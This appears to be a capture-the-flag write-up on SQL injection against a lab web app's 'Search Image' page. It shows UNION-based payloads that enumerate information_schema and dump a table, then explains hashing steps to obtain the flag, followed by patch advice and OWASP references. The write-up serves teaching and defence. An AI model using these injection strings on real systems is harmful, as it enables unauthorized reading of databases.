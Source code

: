 # 💉 SQL Image Injection

## 📖 Definition

An **SQL Injection** breach is a type of cyberattack where an attacker exploits vulnerabilities in a web application’s database query handling by injecting malicious SQL statements into input fields. These injected queries manipulate the database to reveal, alter, or delete sensitive information without proper authorization.

**Key Characteristics of an SQL Injection:**

1. **Database Manipulation:** Attackers inject SQL commands into input fields (e.g., login forms, search bars) to manipulate the database directly, bypassing application logic.

2. **Sensitive Data Exposure:** Exploited queries may reveal critical information such as table structures, user credentials, and other confidential data stored in the database.

3. **Target of Exploitation:** SQL Injection exploits applications that fail to properly sanitize or validate user input before embedding it into SQL queries.

4. **Common Techniques:**
	- **Union-Based Injection:** Combines results from malicious queries with legitimate ones using UNION statements.
	- **Error-Based Injection:** Forces the application to display database errors that reveal useful information.
	- **Blind SQL Injection:** Exploits true/false conditions in the application to deduce database details without direct feedback.

## 🔍 Discovery

We navigate to the **Search Image** page and consedering liabilities, we try to enter `1` in the input and then we see that the page display the SQL injection query fragment. So we decide to try to list the names of all tables and their associated columns present in the database with this command:

```sql
1 UNION select table_name, column_name FROM information_schema.columns
```

It works because we get hundreds of outputs like this:

```Text
ID: 1 UNION select table_name, column_name FROM information_schema.columns 
Title: id
Url : list_images
```

And as you can see, there is a `list_images` table. As we're looking for images, it's perfect. So then, we try to retrieve all values from the `url` and `comment` columns thanks to:

```sql
1 UNION select url, comment FROM list_images
```

And then we get some other inputs but one is particularly interesting:

```Text
ID: 1 UNION select url, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

So we simply decrypt the password using MD5, lower all the characters and then encrypt it in SHA-256 and we get our flag!

## 🏁 Flag

1. Go on **Search Image** page.
2. Display the names of tables and columns in the database using `1 UNION select table_name, column_name FROM information_schema.columns`.
3. Retrieve values from the `url` and `comment` columns of the `list_images` table using `1 UNION select url, comment FROM list_images`.
4. Decrypt the password using MD5, lower all the characters and then encrypt it in SHA-256.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

1. **Use Parameterized Queries (Prepared Statements)**
	- Replace dynamic SQL queries with parameterized queries or prepared statements.
2. **Implement Input Validation and Sanitization**
	- Validate all user inputs to ensure they conform to expected formats (e.g., numbers, email addresses).
	- Sanitize inputs by escaping special SQL characters if direct parameterization is unavailable.
3. **Employ an ORM (Object-Relational Mapping) Framework**
	- Use ORM tools like SQLAlchemy (Python), Hibernate (Java), or Entity Framework (C#) to abstract database interactions.
	- ORMs automatically parameterize queries and reduce the likelihood of injection.
4. **Limit Database Privileges**
	- Follow the Principle of Least Privilege:
		- Assign each application user the minimum permissions necessary.
		- Avoid using highly privileged accounts (e.g., `root`) in application database connections.

## 📚 References

- [SQL Injection (OWASP)](https://owasp.org/www-community/attacks/SQL_Injection)
- [Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [SQL injections (SQLi): principles, impacts, exploitations and security best practices (Vaadata)](https://www.vaadata.com/blog/sql-injections-principles-impacts-exploitations-security-best-practices/)

